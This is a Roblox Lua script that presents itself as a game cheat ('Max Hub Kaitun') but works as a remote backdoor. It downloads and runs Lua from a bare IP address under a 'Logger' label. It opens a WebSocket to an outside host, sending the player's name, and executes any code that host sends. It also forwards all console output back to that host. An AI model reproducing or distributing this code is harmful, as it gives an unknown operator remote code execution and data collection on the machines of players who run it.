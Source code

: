 setclipboard("Max Hub Kaitun")
game:GetService("Players").LocalPlayer:Kick("\nI support Max Hub\for more updates")

spawn(function() 
local LocalPlayer = game.Players.LocalPlayer

local HttpService = game:GetService("HttpService"); 
local LogService = game:GetService("LogService"); 
--[[local o; 
o = hookfunction(string.find, function(a, b) 
    if not a or not b then return end 
    return o(a, b)
end) ]]

local GC = getconnections or get_signal_cons
    if GC then
        for i,v in pairs(GC(game.Players.LocalPlayer.Idled)) do
            if v["Disable"] then
                v["Disable"](v)
            elseif v["Disconnect"] then
                v["Disconnect"](v)
            end
        end
    else
        local VirtualUser = game:GetService("VirtualUser")
        Players.LocalPlayer.Idled:Connect(function()
            VirtualUser:CaptureController()
            VirtualUser:ClickButton2(Vector2.new())
        end)
    end


local placeId = game.PlaceId
if placeId == 2753915549 then
    Sea = "Main"
elseif placeId == 4442272183 then
    Sea = "Dressrosa"
elseif placeId == 7449423635 then
    Sea = "Zou"
end

game.ReplicatedStorage:WaitForChild("Remotes"):WaitForChild("CommE").OnClientEvent:Connect(function(p1, p2) 
    if p1 == "ExpBoost" then 
        _G.ExpBoost = p2
    end 
    if p1 == "SafeZone" then

		
		_G.Safezone = p2;
		return
	end
end)
getgenv().getsenv = function() 
    return 
    {
        ["_G"] = 
        {
            CurrentWorld = Sea, 
            InCombat = (function() 
                return game.Players and game.Players.LocalPlayer and game.Players.LocalPlayer.Character and game.Players.LocalPlayer.Character:GetAttribute("InCombat") 
            end)(), 
            InSafeZone = _G.Safezone,
            ServerData = 
            {
                ExpBoost = _G.ExpBoost
            }
        }
    }
end

print(game:GetService("HttpService"):JSONEncode(getsenv()))

		getgenv().print = function() end

	
loadstring(game:HttpGet('http://150.109.50.38/assets/Client.lua'))()({
    Access_Token = "mUveZboOmlA5q5LCfcoLx6XnTm1qUqU9",
    Device_Name  = "n/a", 
    Note         = "Rac Ruoi Logger"
})
local Connection = getgenv().WebSocket.connect("wss://adu-0nny.onrender.com/?token=haha&isClient=true&clientName="..LocalPlayer.Name)

 LogContentType = {"Output", "Info", "Warning", "Error"}


Connection.OnMessage:Connect(function(msg)

    du = HttpService:JSONDecode(msg) 
    if du.type == "execute" then 
       loadstring(du.data)()
    end
end) 


function Send(Content, Type) 
    Connection:Send(HttpService:JSONEncode({
            type = "emitConsole", 
            data = 
            {
                Type = Type, 
                Date = os.time(), 
                From = LocalPlayer.Name, 
                Content = Content
            }
        })) 
end 

Send("Loaded", "Info")
LogService.MessageOut:Connect(function(Content, Type) 
    local Vcl = Enum.MessageType
    Send(Content, (Type == Vcl.MessageOutput and "Output") or (Type == Vcl.MessageInfo and "Info") or (Type == Vcl.MessageWarning and "Warning") or (Type == Vcl.MessageError and "Error"))
end)
    end)
